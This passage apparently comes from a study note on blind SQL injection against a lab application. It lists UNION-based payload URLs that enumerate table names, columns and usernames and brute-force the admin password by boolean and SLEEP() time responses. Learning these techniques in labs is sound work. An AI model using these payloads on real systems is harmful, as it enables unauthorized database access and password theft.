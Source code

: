 ### 3. getting all table names

`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--` --> false
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'b%';--` --> false
...
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--` --> true
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'ua%';--` --> false
...
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'users%';--` --> true
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name =like= 'users';--` --> true --> table name `users` 

### 4. getting table columns

`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';--` --> false
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'b%' and COLUMN_NAME !='id';--`

--> brute forcing that will result in 3 columns: `id`, `username` and `password`


### 5. getting usernames

`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username like 'a%';--`  --> true

--> brute forcing that will result in 4 usernames: `admin`, `max`, ...

### 6. getting admins password

`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%';--'` --> false

--> brute forcing that will result in admin password


## Time Based Blind
- similar too boolean based
- no visual outputs of the query result
- but indicator of a correct query is the time based on how long it takes to complete
- delay by built in function `SLEEP()` alongside the `UNION` statement --> the sleep function will only get executed when the union statement is successful

 so getting the right amount columns (see [1. getting amount of columns](SQL%20Injection.md#1.%20getting%20amount%20of%20columns)) would look like this:

`http://URL/checkuser?username=admin123' UNION SELECT SLEEP(5);--` --> if there was now delay, the query was unsuccessful
`http://URL/checkuser?username=admin123' UNION SELECT SLEEP(5),2;--` --> no delay --> unsuccessful
`http://URL/checkuser?username=admin123' UNION SELECT SLEEP(5),2,3;--` --> 5 seconds delay --> successful --> 3 columns required for union statement
